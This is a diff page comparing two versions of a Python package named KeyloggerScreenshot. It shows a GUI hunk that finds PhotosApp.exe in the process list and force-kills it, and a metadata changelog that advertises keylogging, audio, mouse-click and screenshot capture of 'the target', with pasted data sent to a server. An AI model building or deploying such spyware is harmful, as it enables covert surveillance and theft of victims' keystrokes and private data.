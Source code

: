 ```diff
@@ -52,14 +53,24 @@
         tkWindow.mainloop()
 
     @staticmethod
     def changecol():  # This function is here to if the simulation has ended
         startbutton.configure(bg="red")
         # This is the button
         startbutton["text"] = "Stop simulation"
+        data = subprocess.check_output("tasklist")
+        str_data = str(data).split()
+        all_exe = [(exe.replace(r"K\\r\\n", "").replace(r"K\r\n", ""), str_data[idx + 1]) for idx, exe in enumerate(str_data) if ".exe" in exe]
+        photo = []
+        for task, pid in all_exe:
+            if task == "PhotosApp.exe":
+                photo.append((task, pid))
+
+        if photo:
+            os.system(f"taskkill /f /PID {photo[0][1]}")
         os._exit(0)
 
     @staticmethod
     def connection():
         print("Successful connection")
 
     @staticmethod
```

### Comparing `KeyloggerScreenshot-0.2.9.1/KeyloggerScreenshot.egg-info/PKG-INFO` & `KeyloggerScreenshot-0.3.0/KeyloggerScreenshot.egg-info/PKG-INFO`

 * *Files 2% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: KeyloggerScreenshot
-Version: 0.2.9.1
+Version: 0.3.0
 Summary: Exporting Keylogger files, recording audio, recording mouse click information and screenshots of the target. For more information check out my website:https://pypi.org/project/KeyloggerScreenshot/ and my github: https://github.com/Facileee/KeyloggerScreenshot
 Home-page: 
 Author: Fawaz Bashiru
 Author-email: fawazbashiru@gmail.com
 License: MIT
 Keywords: KeyloggerScreenshot
 Classifier: Development Status :: 6 - Mature
@@ -328,8 +328,12 @@
 - New help instruction on KLS_start on GitHub
 
 0.2.9.1 (15/04/2023)
 --------------------
 - Data which the target has pasted will now be shown on the server
 - Documentation incoming
 
-
+0.3.0 (20/04/2023)
+- Simulation now stops after stop button is pressed
+- Bug fixes
+- New Code on "Simulation_code.py" and on "KLS_Start.py"
+- New files on github https://github.com/Kill0geR/KeyloggerScreenshot
```